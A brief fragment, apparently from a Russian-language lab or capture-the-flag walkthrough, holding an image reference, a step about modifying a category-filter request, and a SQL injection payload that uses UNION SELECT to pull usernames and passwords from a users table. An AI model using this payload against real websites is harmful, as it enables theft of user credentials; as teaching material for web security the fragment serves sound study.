 Находим запрос на фильтр категорий и изменяем его
`' UNION SELECT username, password FROM users -- -`